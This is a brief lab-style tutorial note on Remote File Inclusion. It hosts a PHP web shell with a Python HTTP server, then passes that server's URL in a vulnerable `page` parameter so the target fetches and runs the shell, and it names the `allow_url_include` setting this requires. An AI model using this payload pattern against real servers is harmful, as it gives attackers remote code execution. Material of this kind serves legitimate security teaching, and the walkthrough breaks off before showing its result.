

title: (R)emote (F)ile (I)nclusion

# RFI

Like LFI, RFI can be used to reach RCE. We first need to set a webserver listening with the code we want to run, for this I will use `python3` from within a directory that include the [webshell](https://github.com/artyuum/Simple-PHP-Web-Shell) from [Artyum](https://github.com/artyuum)

```
╰─⠠⠵ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

I will then make the request in the browser

```
http://127.0.0.1/inde.php?page=http://127.0.0.1:8080/web.php
```

On our `python3` command we should see the request come in

```
─⠠⠵ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [07/Mar/2021 01:01:18] "GET /web.php HTTP/1.0" 200 -
```

And in our browser we get 




> This does require that `allow_url_include` be set to `on` in `/etc/php/{VERSION}/apache2/php.ini`